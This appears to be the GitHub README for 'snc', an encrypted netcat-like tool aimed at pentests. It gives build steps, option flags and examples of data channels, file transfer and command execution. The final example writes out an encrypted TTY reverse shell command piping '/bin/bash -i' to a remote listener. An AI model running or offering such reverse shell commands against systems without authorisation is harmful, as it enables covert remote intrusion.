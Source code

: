 snc
===
Something that always bothered me about `netcat` is the fact that it doesn't implement encryption.
Something that always bothered me about `cryptcat` is the fact that it doesn't implement command
execution. Something that always bothered me about SSH and SCP is the fact that they're just too
complex for simpler use cases (specially during pentests) and easily fingerprintable.

Motivated by that, this tool aims to combine the best of each in a single place, from simple raw
data channels to fully interactive TTY reverse shells. Connections are encrypted with AES-128 by
default but another key size can be set in `src/include/aes.h`. More on `snc`'s inner workings are
detailed in `doc/PROTOCOL.md` for those interested.


Compilation
------------
```bash
$ git clone https://github.com/hiatus/snc.git
$ cd snc && make
```

Usage
-----
```
snc [options] [host]? [port]
	-h           this
	-v           display connection information
	-n           disable DNS resolution
	-r           set terminal to raw mode during the connection
	-e [argv]    execute [argv] and pipe it's IO to the connection socket
	-E [argv]    execute [argv] in a TTY and pipe it's IO to the connection socket
	-d [char]    use [char] as string delimiter for [argv]
	-k [pass]    use the string [pass] as AES key
	-K [file]    use the file [file] as AES key
	-i [file]    read input from [file] instead of stdin
	-o [file]    write output to [file] instead of stdout
	-w [secs]    set a timeout of [secs] seconds for idle connections

	Notes:
		- When [host] is not provided, snc acts as server listening on port [port].
		- Option -d is useful when [argv] has arguments containing spaces.
```

Examples
--------
Some example use cases.

- **Raw Data Channel** \
	Server
	```bash
	user@server:~$ snc -vK key.bin 12345
	[snc] Listening on port 12345
	[snc] Connection from 192.168.0.3:41184
	Hello, server.
	Hello, client.
	Farewell, client.
	user@server:snc$
	```

	Client
	```bash
	user@client:~$ snc -K key.bin 192.168.0.2 12345
	Hello, server.
	Hello, client.
	Farewell, client.
	user@client:~$
	```

- **File Transfer** \
	Server
	```bash
	user@server:~$ snc -vk password -i message.txt 12345
	[snc] Listening on port 12345
	[snc] Connection from 192.168.0.3:53130
	user@server:~$
	```

	Client
	```bash
	user@client:~$ snc -k password 192.168.0.2 12345
	Message content.
	user@client:~$
	```

- **Command Output Transfer** \
	Server
	```bash
	user@server:~$ snc -vk password -e '/bin/echo Hello' 12345
	[snc] Listening on port 12345
	[snc] Connection from 192.168.0.3:37480
	user@server:~$
	```

	Client
	```bash
	user@client:~$ snc -k password 192.168.0.2 12345
	Hello
	user@client:~$
	```

- **TTY Reverse Shell** \
	Server
	```bash
	user@server:~$ snc -rk password 12345
	user@client:~$ whoami
	user
	user@client:~$ exit
	exit
	user@server:~$
	```

	Client
	```bash
	user@client:~$ snc -vk password -E '/bin/bash -i' 192.168.0.2 12345
	[snc] Connecting to 192.168.0.2:12345
	[snc] Connected
	user@client:~$
	```
